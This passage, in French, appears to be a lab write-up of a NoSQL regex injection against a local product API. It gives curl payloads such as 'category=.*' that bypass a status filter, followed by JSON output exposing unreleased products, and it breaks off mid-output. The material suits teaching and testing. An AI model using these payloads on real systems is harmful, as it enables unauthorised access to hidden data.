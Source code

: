 ```bash
# Requête normale
curl "http://localhost:3206/api/products?category=Electronics"
```

**Résultat :** Retourne seulement les produits Electronics avec status "public" (2 produits)

### **2.2 Détection de l'Injection**

L'application utilise une logique conditionnelle :
- **Filtres normaux** (`Electronics`, `Home`, `Clothing`) : Affichent seulement les produits publics
- **Valeurs non normales** : Utilisent l'opérateur `$regex` qui peut être injecté

## **3. Exploitation de la Vulnérabilité**

### **3.1 Payloads d'Injection**

**Payload 1 : Contournement complet**
```bash
curl "http://localhost:3206/api/products?category=.*"
```

**Payload 2 : Sélection multiple**
```bash
curl "http://localhost:3206/api/products?category=Electronics|Home|Clothing"
```

**Payload 3 : Pattern matching avancé**
```bash
curl "http://localhost:3206/api/products?category=Electronics.*"
```

### **3.2 Résultats de l'Exploitation**

L'injection avec `.*` retourne **TOUS** les produits, y compris ceux avec `status: "unreleased"` :

```json
[
  {
    "name": "Next-Gen Gaming Console",
    "sku": "GC-2025-001", 
    "category": "Electronics",
    "price": 599.99,
    "description": "Revolutionary gaming console with AI-powered graphics",
    "status": "unreleased",
    "release_date": "2025-06-15"
  },
  {
    "name": "Quantum Smartphone",
    "sku": "QS-2025-002",
    "category": "Electronics", 
    "price": 1299.99,
    "description": "First quantum-encrypted smartphone with holographic display",
    "status": "unreleased",
    "release_date": "2025-08-20"
  },
  {
    "name": "Smart Home Security System",
    "sku": "SH-2025-003",
    "category": "Home",
    "price": 399.99,
    "description": "AI-powered home security with facial recognition", 
    "status": "unreleased",
    "release_date": "2025-07-10"
  },
  {
```
